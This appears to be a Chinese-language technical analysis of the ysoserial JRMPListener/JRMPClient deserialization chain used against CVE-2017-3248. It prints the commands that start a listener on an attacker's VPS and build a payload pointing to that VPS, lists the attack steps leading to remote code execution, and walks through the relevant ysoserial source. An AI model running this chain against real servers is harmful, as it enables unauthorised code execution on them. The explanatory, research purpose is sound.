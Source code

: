 ```plain
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 'touch /tmp/cve-2017-3248'
java -jar ysoserial.jar JRMPClient 'vpsIP:PORT' > vulrServer
```

### 攻击流程

1.  攻击者使用vps启用ysoserial.exploit.JRMPListener，设置需要需要执行的命令、端口和利用的模块，生成payload1
2.  攻击者本地使用payloads.JRMPClient生成payload2，设置vps的ip与端口，生成payload2
3.  攻击者将payload2发送至存在漏洞的目标服务器，目标服务器进行反序列化
4.  目标服务器反序列化过程中会与exploit.JRMPListener进行通信（vps）
5.  vps会将payload1发送至目标漏洞服务器
6.  漏洞服务器会根据 exploit/JRMPListener 设计的通信处理流程，进一步反序列化 payload1
7.  在对payload1反序列化的过程中，会触发RCE

### exploit.JRMPListener

首先从其main函数开始分析，第一步是构造payload

```plain
final Object payloadObject = Utils.makePayloadObject(args[ 1 ], args[ 2 ]);
```

进入该函数，关键两句代码是

```plain
final ObjectPayload payload = payloadClass.newInstance();
payloadObject = payload.getObject(payloadArg);
```

[![](assets/1701612165-bf3a0e8a1505b024750d606da9031632.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230810225217-80246d52-378d-1.png)  
第二部，启动监听  
构建了一个JRMPListener对象，查看其构造函数

```plain
public JRMPListener (int port, String className, URL classpathUrl) throws IOException {
    this.port = port;
    this.payloadObject = makeDummyObject(className);
    this.classpathUrl = classpathUrl;
    this.ss = ServerSocketFactory.getDefault().createServerSocket(this.port);
}
```
